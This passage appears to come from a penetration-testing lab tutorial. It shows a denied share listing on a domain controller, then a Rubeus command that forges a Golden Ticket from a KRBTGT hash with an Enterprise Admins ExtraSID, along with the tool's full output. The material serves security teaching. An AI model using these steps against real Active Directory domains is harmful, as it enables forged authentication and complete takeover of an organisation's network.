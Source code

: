 ```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces 
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
	
<SNIP> 
```
###### Next, we will formulate our Rubeus command using the data we retrieved above. The /rc4 flag is the NT hash for the KRBTGT account. The /sids flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.
## Creating a Golden Ticket using Rubeus
  
```powershell
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM
```